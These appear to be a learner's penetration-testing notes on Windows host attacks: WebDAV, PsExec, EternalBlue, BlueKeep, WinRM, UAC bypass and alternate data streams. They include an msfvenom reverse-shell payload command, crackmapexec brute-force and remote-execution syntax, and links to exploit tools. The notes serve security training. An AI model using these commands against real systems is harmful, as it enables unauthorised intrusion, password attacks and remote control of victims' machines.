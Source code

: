 # Host & Network Penetration Testing: System/Host Based Attacks

Intro: system/host based attacks are targeted towards a specific system or host running a specific os

## Windows

### Webdav
**Continue from previous webdav lessons...Uploading msf backdoor to WebDAV**
- msfvenom is to create payload `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > meterpreter.asp
- can also use `iis_webdav_upload` module in the framework instead of `cadaver` which is fully self contain

### SMB with PsExec

- before using psexec, valid credentials are needed, administrator account can be frute force
- brute force module name: `smb_login`
- The `smb/psexec` module in msf will very likely get caught but antivirus
- Manual exploit using psexec.py from impacket, install with `sudo apt install impacket-scripts`

### Eternal Blue MS17-010

What is shellcode?
Shellcode is a small piece of machine-level code (usually written in assembly) that an attacker uses as a payload — it's the code that gets executed once an exploit successfully gains control of a vulnerable process.

- Manual exploit available @ [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

how is shellcode related to MS17
1. The exploit causes a buffer overflow on a vulnerable system.
2. The attacker injects custom shellcode into memory as part of the payload.
3. Once the overflow occurs, the system executes the shellcode — giving you control.


### RDP

- The rdp_scanner module can varify if the port is running rdp
- After confirm, we can brute force the protocol

**BLUEKEEP (CVE-2019-0708)**

- An RDP vulnerability
- msf got both an auxiliary and exploit module for bluekeep (this module only work with 64bit windows, and also need to manually set target)
- Be EXTREMELY careful with kernel exploit, set CHUNK froom size smaller to be a bit gentle to the target machine

### WinRM

- not enabled by default need to be explicitly configured and enabled
- it allows sysadmin just provide username and userpassword/passwordhash to authenticate
- we can perform a bruteforce attack with "crackmapexec" syntax: `crackmapexec <protocol:winrm> <IP> -u <username:admin> -p <password list>
- to execute command with crackmapexec, syntax is: 'crackmapexec <protocol:winrm> <IP> -u <username> -p <password> -x <command to execute>
- to get command shell session we use "evil-winrm"
- msf also has a module: 'winrm_script_exec'
- TIPS: BY DEFAULT NMAP DOES NOT SCAN WINRM PORT 5985-5986

**Note: We are setting the PASSWORD because in the recent version of the "winrm_login" module, the PASSWORD option is required unless using Kerberos authentication. Metasploit will still use the USERPASS_FILE file.**

### Kernel Exploits & Priv Esc for windows

Tools to use:
- Windows-Exploit-Suggester
- Windows-Kernel-Exploits
- In msf, there is a module called `local_exploit_suggester`

**Bypassing UAC with UACMe**

- Requirements: an account that is part of local admin group
- Bypassing will likely not work if it is set to the highest level
- UACMe is developed by @hfire0x and can be downloaded [here](https://github.com/hfiref0x/UACME)
- It works by abusing the inbuilt windows auteelevate tool
- works ranging from win7 to win10

in meterpreter, using pgrep is to grep the process id

UACMe is a very complicated tool, it is recommended to have a home lab with win7, win8,win8.1 and win10 as lab to test all options

**Windows Access Token**





**Alternate Data Streams**

- ADS is an NTFS file attribute and design to be compatible with macOS HFS
- Attackers can use ADS to hide malicious code and executables in legitimate files
- eg: notepad test.txt:secret.txt


**Dumping Password Hashes**



## Linux
